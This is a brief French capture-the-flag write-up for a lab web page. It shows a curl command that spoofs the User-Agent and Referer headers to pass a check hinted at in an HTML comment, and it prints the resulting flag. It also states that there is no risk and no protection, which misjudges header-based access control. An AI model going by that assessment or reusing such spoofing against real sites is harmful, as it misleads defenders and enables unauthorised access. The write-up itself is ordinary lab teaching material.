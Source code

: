 # COPYRIGHT PAGE

## CIBLE: http://10.12.1.129/?page=e43ad1fdc54babe674da7c7b8f0127bde61de3fbe01def7d00f151c2fcca6d1c

### PRÉ REQUIS

Aucun.

### RECHERCHE

En regardant le code HTML, on peut voir qu'en commentaire, il est dit qu'il faut venir de https://www.nsa.gov/ et avoir un USER-AGENT `ft_bornToSec`

### EXPLOITATION

Il suffit donc de lancer cette commande:<br>
`curl -A "ft_bornToSec" --referer "https://www.nsa.gov/"  http://10.12.1.129/\?page=e43ad1fdc54babe674da7c7b8f0127bde61de3fbe01def7d00f151c2fcca6d1c | grep -i flag`
```
-A va changer le USER AGENT.
--referer va changer "d'où on vient".
```

On obtient le flag: `f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188`.

## RISQUE

Aucun.

## PROTECTION

Aucune.
